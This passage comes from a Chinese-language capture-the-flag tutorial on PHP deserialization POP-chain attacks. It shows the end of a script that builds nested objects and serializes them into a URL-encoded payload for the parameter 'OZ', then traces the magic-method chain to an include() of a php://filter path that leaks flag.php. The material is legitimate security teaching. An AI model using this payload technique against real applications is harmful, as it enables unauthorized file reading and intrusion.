$do1 = new do();
$do1->str = array(‘str’ => $peal); // 使 $do1->str[‘str’] 为 $peal 对象

// 4. 创建 $do2 对象，使其 __wakeup 方法能触发 $do1 的 __toString
$do2 = new do();
$do2->str = $do1; // 使 $do2->str 为 $do1 对象

// 5. 序列化 $do2，这就是我们的攻击载荷
$payload = serialize($do2);
echo urlencode($payload); // 进行URL编码后通过GET参数OZ传递
?>
```
运行这段代码，会生成一个经过URL编码的序列化字符串。将其作为`OZ`参数的值发送给目标，即可触发完整的POP链，最终以Base64编码的形式返回`flag.php`文件的内容，解码后即可获得flag。

## 执行流程回顾

为了加深理解，我们从起点到终点顺向回顾一下整个执行流程：
1.  服务器对传入的`OZ`参数进行`unserialize()`，还原出`$do2`对象，触发其`__wakeup`。
2.  `$do2->__wakeup()`中，`stristr($this->str, …)`试图将`$do2->str`（即`$do1`对象）当作字符串使用，触发`$do1->__toString()`。
3.  `$do1->__toString()`中，代码尝试访问`$do1->str[‘str’]->{$do1->str[‘str’]}`。这里`$do1->str[‘str’]`是`$peal`对象，`{$do1->str[‘str’]}`值为`’str’`，因此等价于访问`$peal->str`属性。由于`peal`类没有`str`属性，触发`$peal->__get(‘str’)`。
4.  `$peal->__get(‘str’)`中，`$this->cmd[$this->sand]()`变为`$peal->cmd[‘str’]()`，即`$works()`。将`$works`对象当作函数调用，触发`$works->__invoke()`。
5.  `$works->__invoke()`中，调用`$this->fun()`。
6.  `$works->fun()`执行`include($this->post)`，包含了我们指定的`php://filter`路径，读取并返回了`flag.php`的Base64编码内容。

## 总结

本节课中，我们一起学习了POP链攻击的完整分析方法。我们从理解起点（反序列化入口）和终点（危险函数）出发，重点演练了如何通过逆向追踪魔术方法的触发条件，将起点和终点连接成一条可用的攻击链。面对复杂的代码，关键在于保持思路清晰，先抓整体结构，再逐步细化分析属性与魔术方法之间的调用关系。掌握此方法后，你应对反序列化漏洞题目的能力将得到显著提升。